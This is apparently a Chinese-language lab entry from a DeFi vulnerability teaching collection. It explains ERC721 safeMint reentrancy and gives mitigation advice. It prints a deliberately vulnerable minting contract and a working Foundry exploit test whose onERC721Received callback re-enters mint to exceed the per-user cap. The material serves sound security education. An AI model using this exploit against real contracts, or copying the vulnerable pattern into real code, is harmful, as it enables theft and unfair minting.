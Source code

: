 # 不受保护的回调——ERC721 SafeMint可重入  
[Unprotected-callback.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Unprotected-callback.sol)  
**名称：** 不受保护的回调——ERC721 SafeMint可重入漏洞  
**描述：**  
合约 ContractTest 正在利用回调功能绕过MaxMint721合约设置的最大铸币限制。这是通过触发onERC721Received函数来实现的，在函数内部再次调用Mint函数。因此，尽管MaxMint721试图限制用户可以铸造的代币数量MAX_PER_USER，但ContractTest合约成功铸造的代币数量超过了此限制。  


**场景：**  
这个练习是一个通过回调函数铸造更多的NFT合约。  

**缓解意见：**  
遵循“检查-效果-交互”编码范式并使用OpenZeppelin重入防护。  
**参考：**  
https://blocksecteam.medium.com/when-safemint-becomes-unsafe-lessons-from-the-hypebears-security-incident-2965209bda2a  
https://www.paradigm.xyz/2021/08/the-dangers-of-surprising-code  


**MaxMint721合约：**  
```
contract MaxMint721 is ERC721Enumerable {
    uint256 public MAX_PER_USER = 10;

    constructor() ERC721("ERC721", "ERC721") {}

    function mint(uint256 amount) external {
        require(
            balanceOf(msg.sender) + amount <= MAX_PER_USER,
            "exceed max per user"
        );
        for (uint256 i = 0; i < amount; i++) {
            uint256 mintIndex = totalSupply();
            _safeMint(msg.sender, mintIndex);
        }
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Unprotected-callback.sol** -vvvv
```
// 测试新代币铸造的公共函数
function testSafeMint() public {
    // 创建 MaxMint721 合约的新实例
    MaxMint721Contract = new MaxMint721();
        
    // 尝试铸造最大数量的新代币。 
    // 如果 mint 函数以标准方式实现，这应该铸造最大数量的新代币。
    MaxMint721Contract.mint(maxMints);
        
    // 控制台日志表明发生了一个漏洞，允许铸造19个 NFT
    console.log("Bypassed maxMints, we got 19 NFTs");
        
    // 该代码判断确实已经铸造了19个NFT。
    assertEq(MaxMint721Contract.balanceOf(address(this)), 19);
        
    // 输出此合约铸造的NFT数量
    console.log("NFT minted:", MaxMint721Contract.balanceOf(address(this)));
}

// 此函数是ERC721Receiver接口的标准实现，允许该合约从其他合约接收ERC721代币。
// 在这种情况下，它用于执行铸币漏洞
function onERC721Received(
    address,
    address,
    uint256,
    bytes memory
) public returns (bytes4) {
        
    // 检查这是否是第一次调用函数
    if (!complete) {
        // 将函数标记为调用
        complete = true;
            
        // 新代币数量为Mints (maxMints - 1)  
        MaxMint721Contract.mint(maxMints - 1);
            
        // 输出请求铸造的代币数量
        console.log("Called with :", maxMints - 1);
    }
        
    // 这是成功接收ERC721代币的标准返回值
    return this.onERC721Received.selector;
}
```  
**红框：**成功绕过maxMint限制   
![Alt text](image-9.png)
